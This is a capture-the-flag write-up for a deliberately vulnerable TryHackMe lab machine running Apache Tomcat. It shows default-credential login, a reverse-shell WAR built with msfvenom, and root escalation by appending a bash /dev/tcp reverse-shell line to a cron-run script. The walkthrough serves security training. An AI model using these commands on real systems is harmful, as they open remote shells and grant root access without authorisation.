Room link: https://tryhackme.com/r/room/bsidesgtthompson

I started with enumeration
```bash
nmap -oN nmap.txt -Pn -T4 -sC -sV 10.10.188.85
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13    Apache Jserv (Protocol v1.3)
8080/tcp open  http     Apache Tomcat 8.5.5
```

I went to the site `http://10.10.188.85:8080`



I clicked Manager App and it asked me for a login



I tried `admin:tomcat` and `tomcat:tomcat` but it didn't let me in, so I pressed cancel button and it displayed some interesting information



By using username `tomcat` and password `s3cret` I was able to log in to the site



Scrolling down, I noticed that I could upload a `.war` file - I didn't know what it was, but after a quick Google search, I found out that it's a file used to [distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes](https://en.wikipedia.org/wiki/WAR_(file_format))



I checked the available metasploit payloads



I used `java/jsp_shell_reverse_tcp` using the

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > rev.war
```

In the second terminal window I turned on `msfconsole` and typed:
- `use multi/handler`
- `set payload java/jsp_shell_reverse_tcp`



I also set `LHOST` and `LPORT` based on what I typed into `msfvenom`
- `set LHOST=IP`
- `set LPORT=PORT`

at the end i typed `exploit`

and I uploaded this exploit to the site



after clicking on `/rev` i was possible to access the shell. I immediately spawned beter one, using python

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```



Going through the directories, I managed to find the flag of the user



Time to escalate permissions, I checked `sudo -l` but it told me to enter the password, so I'll try to find another way

Let's check the crontab `cat /etc/crontab`



well, and we have something interesting, `id.sh` in jack's home directory - I'll just check the permissions of this file via the `ls -la /home/jack/id.sh` command



great, it looks like this could be our way to escalate permissions, let's just check what's in this file



I will add a reverse shell using `echo`:

```bash
echo "bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1" >> /home/jack/id.sh
```

in the next terminal window I enabled netcat

```bash
nc -nvlp LPORT
```

and after a while I was able to access the root shell. All that was left was to pull the root flag

